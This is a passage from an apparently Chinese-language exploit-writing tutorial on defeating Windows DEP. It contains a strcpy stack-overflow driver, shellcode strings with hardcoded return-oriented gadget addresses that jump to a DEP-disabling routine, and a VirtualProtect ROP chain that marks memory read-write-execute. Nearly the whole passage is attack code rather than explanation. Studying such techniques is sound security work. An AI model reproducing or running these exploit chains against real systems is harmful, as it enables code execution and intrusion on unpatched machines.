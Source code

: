 ``` 
      strcpy(tt,shellcode);  
}  
int main()  
{  
      HINSTANCE hInst = LoadLibrary("shell32.dll");  
      char temp[200];  
      test();  
      return 0;  
}  
```

或者用

``` 
"\x52\xE2\x92\x7C"//MOV EAX,1 RETN地址 
"\x96\x73\x1B\x5D"//修正EBP 8
"\x85\x8B\x1D\x5D"//ebp 4
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
//"\x19\x4A\x97\x7C"//增大ESP  
"\x45\x01\x88\x7c"//esp up
"\xB4\xC1\xC5\x7D"//jmp esp  
"\x24\xCD\x93\x7C"//关闭DEP代码的起始位置  
"\xE9\x27\xFF\xFF"//回跳指令  
"\xFF\x90\x90\x90"  
```
都是可以的只要是明白了retn的精髓那么构造shellcode就不是问题



## 0x2 VitualProtect

``` 
 
// GS_Virtual.cpp : 定义控制台应用程序的入口点。  
//  
  
#include <stdlib.h>  
#include <string.h>  
#include <stdio.h>  
#include <windows.h>  
char shellcode[]=  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"  
"\x90\x90\x90\x90"  
  
"\x94\xb0\x6c\x7d"   //0x7d6cb094 pop eax  ret  
//"\x34\x7a\xc1\x77"   //POP EBX POP ESI POP EDI  RETN at 0x77c17a34     
//"\x26\x62\x92\x7d" //POP ECX POP ECX POP ECX  RETN at 0x7d926226  
"\x69\x36\x5C\x7D"    // pop edi,pop ebx,pop esi,retn  
"\xe5\xe0\x72\x7d"   //0x7d72e0e5  push esp pop ebp ret 4  
"\x24\x01\x6f\x7d"   //ret   
"\x90\x90\x90\x90"  
"\xc6\xc6\xeb\x77"   //77ebc6c6  push esp jmp eax  
"\x10\x01\x00\x00"   //要修改的内存大小  
"\x40\x00\x00\x00"   //可读可写可执行属性代码  
```

  [1]: ./images/1.png
  [2]: ./images/2.png 